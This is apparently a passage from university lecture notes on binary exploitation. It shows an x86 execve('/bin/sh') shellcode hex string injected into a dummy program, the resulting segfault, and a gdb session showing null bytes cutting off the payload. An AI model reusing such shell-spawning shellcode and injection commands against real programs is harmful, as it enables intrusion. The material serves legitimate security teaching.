 The program simply reads a command line arguments, loads it into a
buffer, and then executes the buffer. This is essentially what we want
to happen when we exploit a program, but a lot of the work is done for
us.

What we'd like to happen is that we can do this with our shell code hex:

``` example
user@si485H-base:demo$ ./hexify.sh execve_jmpcall
\xeb\x20\x5e\x6a\x00\x56\xba\x00\x00\x00\x00\x89\xe1\x89\xf3\xb8\x0b\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
user@si485H-base:demo$ ./dummy_exploit $(printf "\xeb\x20\x5e\x6a\x00\x56\xba\x00\x00\x00\x00\x89\xe1\x89\xf3\xb8\x0b\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68")
Segmentation fault (core dumped)
```

We have a problem. Let's execute this under gdb, and we can see where
the problem arises:

``` example
(gdb) ds main
Dump of assembler code for function main:
   0x0804841d <+0>: push   ebp
   0x0804841e <+1>: mov    ebp,esp
   0x08048420 <+3>: and    esp,0xfffffff0
   0x08048423 <+6>: sub    esp,0x410
   0x08048429 <+12>:    mov    eax,DWORD PTR [ebp+0xc]
   0x0804842c <+15>:    add    eax,0x4
   0x0804842f <+18>:    mov    eax,DWORD PTR [eax]
   0x08048431 <+20>:    mov    DWORD PTR [esp+0x8],0x400
   0x08048439 <+28>:    mov    DWORD PTR [esp+0x4],eax
   0x0804843d <+32>:    lea    eax,[esp+0x10]
   0x08048441 <+36>:    mov    DWORD PTR [esp],eax
   0x08048444 <+39>:    call   0x8048310 <strncpy@plt>
   0x08048449 <+44>:    lea    eax,[esp+0x10]
   0x0804844d <+48>:    call   eax
   0x0804844f <+50>:    leave  
   0x08048450 <+51>:    ret    
End of assembler dump.
(gdb) br *0x0804844d
Breakpoint 1 at 0x804844d
(gdb) r $(printf "\xeb\x20\x5e\x6a\x00\x56\xba\x00\x00\x00\x00\x89\xe1\x89\xf3\xb8\x0b\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68")
Starting program: /home/user/git/si485-binary-exploits/lec/09/demo/dummy_exploit $(printf "\xeb\x20\x5e\x6a\x00\x56\xba\x00\x00\x00\x00\x89\xe1\x89\xf3\xb8\x0b\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68")

Breakpoint 1, 0x0804844d in main ()
(gdb) x/10i $esp+0x10
   0xbffff250:  jmp    0xbffff252
   0xbffff252:  add    BYTE PTR [eax],al
   0xbffff254:  add    BYTE PTR [eax],al
   0xbffff256:  add    BYTE PTR [eax],al
   0xbffff258:  add    BYTE PTR [eax],al
   0xbffff25a:  add    BYTE PTR [eax],al
   0xbffff25c:  add    BYTE PTR [eax],al
   0xbffff25e:  add    BYTE PTR [eax],al
   0xbffff260:  add    BYTE PTR [eax],al
   0xbffff262:  add    BYTE PTR [eax],al
```
